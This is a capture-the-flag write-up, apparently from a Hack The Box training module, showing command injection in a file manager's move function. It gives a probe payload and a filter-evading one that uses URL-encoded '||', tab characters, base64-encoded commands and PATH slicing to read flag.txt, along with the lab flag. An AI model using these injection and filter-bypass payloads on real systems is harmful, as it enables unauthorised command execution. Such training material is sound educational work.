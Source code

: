 ﻿You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.


![Pasted image 20250205145850.png](../../../IMAGES/Pasted%20image%2020250205145850.png)

## Reconnaissance
---

Once we've authenticated, we can see the following:

![Pasted image 20250205145916.png](../../../IMAGES/Pasted%20image%2020250205145916.png)

We got a lot of functions in this page, being:

```ad-summary
1. Direct Link
2. Preview
3. Copy to
4. Download
```

After checking each of them, I found the following in the `Copy to` function:

![Pasted image 20250205150700.png](../../../IMAGES/Pasted%20image%2020250205150700.png)

We have a `Copy` and `Move` function in this page, they go by the following parameters:

Copy:
```
/index.php?to=&from=51459716.txt&finish=1
```

Move:

```
/index.php?to=&from=51459716.txt&finish=1&move=1 
```

In the move URL, if we modify the to value to empty, we can see the following:

![Pasted image 20250205153325.png](../../../IMAGES/Pasted%20image%2020250205153325.png)

Which means, it could be vulnerable to command injection, let's try sending a simple payload like:

```
/index.php?to=&from=51459716.txt;uname&finish=1&move=1
```

We will see the following:

![Pasted image 20250205153433.png](../../../IMAGES/Pasted%20image%2020250205153433.png)

This is indeed vulnerable to command injection, let's craft our payload to read the flag.

## Exploitation
---

Commands like `cat`, `mv` and `ls` are blocked, we need to bypass them using what we've learned in this module, let's do the following payload:

```
%7C%7Cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)
```

```ad-important
#### Breakdown
---
### **1. URL Decoding First**

- `%7C%7C`Â â†’Â `||`Â (double pipe operator in Linux).
    
- `%09`Â â†’ Tab character (used to replace spaces).
    

Decoded payload:


`||bash<<<$(base64 -d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)`


---

### **2. Command Structure**

- **`||`**: Execute the second commandÂ **regardless**Â of whether the first command (`mv`, in the original app) succeeds or fails.
    
- **`bash<<<`**: Pass the following string as input toÂ `bash`Â for execution.
    

---

### **3. Decoding the Base64 String**

The inner command is:

`$(base64 -d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)`

- **`base64 -d`**: Decodes a Base64-encoded string.
    
- **`<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK`**: Passes the Base64 string toÂ `base64 -d`.
    

**Decoding the Base64**:


`echo "Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK" | base64 -d`

**Result**:

`cat ${PATH:0:1}flag.txt`

---

### **4. Breaking Down the Final Command**

The decoded command is:

`cat ${PATH:0:1}flag.txt`

- **`${PATH:0:1}`**: Extracts the first character of theÂ `PATH`Â environment variable (which isÂ `/`).
    
    - Example: IfÂ `PATH=/usr/local/bin:/usr/bin`,Â `${PATH:0:1}`Â â†’Â `/`.
        
- **Result**:Â `cat /flag.txt`.
    

---

### **5. Why Use These Techniques?**

- **`||`**: Bypasses command injection filters by executing regardless of the first command's success.
    
- **`base64`**: Obfuscates the command to bypass keyword filters (e.g.,Â `cat`,Â `/`).
    
- **`${PATH:0:1}`**: Avoids usingÂ `/`Â directly (common blacklisted character).
    
- **`%09`Â (tab)**: Replaces spaces to bypass space filters.
    

---

### **Full Payload Flow**

1. The app runsÂ `mv [file] [to]`.
    
2. The payload injectsÂ `||bash<<<$(base64 -d<<<...)`.
    
3. The Base64 string decodes toÂ `cat /flag.txt`.
    
4. `bash`Â executes the decoded command, printing the flag.
```

If we needed to look around for the flag, we'd need to use more payloads, since this is not needed, we can simply use this one.

So, let's send it like this:

```
http://94.237.54.42:31196/index.php?to=%7C%7Cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)&from=51459716.txt&finish=1&move=1
```

We will see the following output:

![Pasted image 20250205153914.png](../../../IMAGES/Pasted%20image%2020250205153914.png)

Flag is `HTB{c0mm4nd3r_1nj3c70r}`

![Pasted image 20250205154011.png](../../../IMAGES/Pasted%20image%2020250205154011.png)

